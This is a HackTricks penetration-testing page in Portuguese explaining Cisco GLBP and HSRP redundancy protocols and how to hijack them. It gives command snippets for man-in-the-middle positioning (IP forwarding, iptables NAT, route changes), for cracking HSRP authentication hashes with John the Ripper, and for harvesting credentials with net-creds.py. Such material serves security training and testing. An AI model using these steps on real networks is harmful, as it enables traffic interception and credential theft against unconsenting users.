 # Ataques GLBP & HSRP

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>


## Visão Geral do Sequestro FHRP

### Insights sobre FHRP
FHRP é projetado para fornecer robustez de rede, combinando vários roteadores em uma única unidade virtual, melhorando assim a distribuição de carga e a tolerância a falhas. A Cisco Systems introduziu protocolos proeminentes nesta suíte, como GLBP e HSRP.

### Insights do Protocolo GLBP
A criação da Cisco, GLBP, funciona na pilha TCP/IP, utilizando UDP na porta 3222 para comunicação. Roteadores em um grupo GLBP trocam pacotes "hello" em intervalos de 3 segundos. Se um roteador falhar em enviar esses pacotes por 10 segundos, presume-se que ele está offline. No entanto, esses temporizadores não são fixos e podem ser modificados.

### Operações e Distribuição de Carga do GLBP
O GLBP se destaca ao permitir a distribuição de carga entre roteadores usando um único IP virtual associado a vários endereços MAC virtuais. Em um grupo GLBP, cada roteador está envolvido no encaminhamento de pacotes. Ao contrário do HSRP/VRRP, o GLBP oferece um balanceamento de carga genuíno por meio de vários mecanismos:

- **Balanceamento de Carga Dependente do Host:** Mantém a atribuição de endereço MAC AVF consistente para um host, essencial para configurações NAT estáveis.
- **Balanceamento de Carga Round-Robin:** A abordagem padrão, alternando a atribuição de endereço MAC AVF entre hosts solicitantes.
- **Balanceamento de Carga Round-Robin Ponderado:** Distribui a carga com base em métricas de "Peso" predefinidas.

### Componentes Chave e Terminologias no GLBP
- **AVG (Gateway Virtual Ativo):** O roteador principal, responsável por alocar endereços MAC para roteadores pares.
- **AVF (Encaminhador Virtual Ativo):** Um roteador designado para gerenciar o tráfego de rede.
- **Prioridade GLBP:** Uma métrica que determina o AVG, começando com um padrão de 100 e variando entre 1 e 255.
- **Peso GLBP:** Reflete a carga atual em um roteador, ajustável manualmente ou por meio de Rastreamento de Objetos.
- **Endereço IP Virtual GLBP:** Serve como gateway padrão da rede para todos os dispositivos conectados.

Para interações, o GLBP utiliza o endereço multicast reservado 224.0.0.102 e a porta UDP 3222. Os roteadores transmitem pacotes "hello" em intervalos de 3 segundos e são considerados não operacionais se um pacote for perdido por mais de 10 segundos.

### Mecanismo de Ataque GLBP
Um atacante pode se tornar o roteador principal enviando um pacote GLBP com o valor de prioridade mais alto (255). Isso pode levar a ataques de DoS ou MITM, permitindo a interceptação ou redirecionamento de tráfego.

### Executando um Ataque GLBP com Loki
[Loki](https://github.com/raizo62/loki_on_kali) pode realizar um ataque GLBP injetando um pacote com prioridade e peso definidos como 255. As etapas pré-ataque envolvem a coleta de informações como o endereço IP virtual, presença de autenticação e valores de prioridade do roteador usando ferramentas como Wireshark.

Passos do Ataque:
1. Alterar para o modo promíscuo e ativar o encaminhamento IP.
2. Identificar o roteador alvo e recuperar seu IP.
3. Gerar um ARP Gratuito.
4. Injetar um pacote GLBP malicioso, se passando pelo AVG.
5. Atribuir um endereço IP secundário à interface de rede do atacante, espelhando o IP virtual do GLBP.
6. Implementar SNAT para visibilidade total do tráfego.
7. Ajustar o roteamento para garantir o acesso contínuo à internet por meio do roteador AVG original.

Seguindo esses passos, o atacante se posiciona como um "homem no meio", capaz de interceptar e analisar o tráfego de rede, incluindo dados não criptografados ou sensíveis.

Para demonstração, aqui estão os trechos de comando necessários:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explicação Passiva do Sequestro de HSRP com Detalhes de Comando

#### Visão Geral do Sequestro de HSRP (Protocolo de Redundância/Roteador em Espera)
HSRP é um protocolo proprietário da Cisco projetado para redundância de gateway de rede. Ele permite a configuração de vários roteadores físicos em uma unidade lógica única com um endereço IP compartilhado. Essa unidade lógica é gerenciada por um roteador primário responsável por direcionar o tráfego. Ao contrário do GLBP, que usa métricas como prioridade e peso para balanceamento de carga, o HSRP depende de um único roteador ativo para o gerenciamento de tráfego.

#### Funções e Terminologia no HSRP
- **Roteador Ativo do HSRP**: O dispositivo que atua como gateway, gerenciando o fluxo de tráfego.
- **Roteador em Espera do HSRP**: Um roteador de backup, pronto para assumir se o roteador ativo falhar.
- **Grupo HSRP**: Um conjunto de roteadores colaborando para formar um único roteador virtual resiliente.
- **Endereço MAC do HSRP**: Um endereço MAC virtual atribuído ao roteador lógico na configuração do HSRP.
- **Endereço IP Virtual do HSRP**: O endereço IP virtual do grupo HSRP, atuando como gateway padrão para dispositivos conectados.

#### Versões do HSRP
O HSRP possui duas versões, HSRPv1 e HSRPv2, diferindo principalmente em capacidade de grupo, uso de IP multicast e estrutura de endereço MAC virtual. O protocolo utiliza endereços IP multicast específicos para a troca de informações de serviço, com pacotes Hello enviados a cada 3 segundos. Um roteador é considerado inativo se nenhum pacote for recebido dentro de um intervalo de 10 segundos.

#### Mecanismo de Ataque do HSRP
Os ataques do HSRP envolvem assumir à força o papel do Roteador Ativo injetando um valor de prioridade máximo. Isso pode levar a um ataque de Homem-no-Meio (MITM). Etapas essenciais pré-ataque incluem coletar dados sobre a configuração do HSRP, o que pode ser feito usando o Wireshark para análise de tráfego.

#### Etapas para Bypassing da Autenticação do HSRP
1. Salve o tráfego de rede contendo dados do HSRP como um arquivo .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraia hashes MD5 do arquivo .pcap usando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Quebre os hashes MD5 usando o John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executando a Injeção de HSRP com Loki**

1. Inicie o Loki para identificar anúncios do HSRP.
2. Defina a interface de rede para o modo promíscuo e ative o encaminhamento de IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Use o Loki para direcionar um roteador específico, insira a senha do HSRP quebrada e faça as configurações necessárias para se passar pelo Roteador Ativo.
4. Após obter o papel de Roteador Ativo, configure sua interface de rede e tabelas de IP para interceptar o tráfego legítimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifique a tabela de roteamento para rotear o tráfego através do antigo Roteador Ativo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Use net-creds.py ou uma ferramenta similar para capturar credenciais do tráfego interceptado.
```shell
sudo python2 net-creds.py -i eth0
```

Executar essas etapas coloca o atacante em uma posição para interceptar e manipular o tráfego, semelhante ao procedimento para o sequestro de GLBP. Isso destaca a vulnerabilidade em protocolos de redundância como o HSRP e a necessidade de medidas de segurança robustas.


# Referências
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
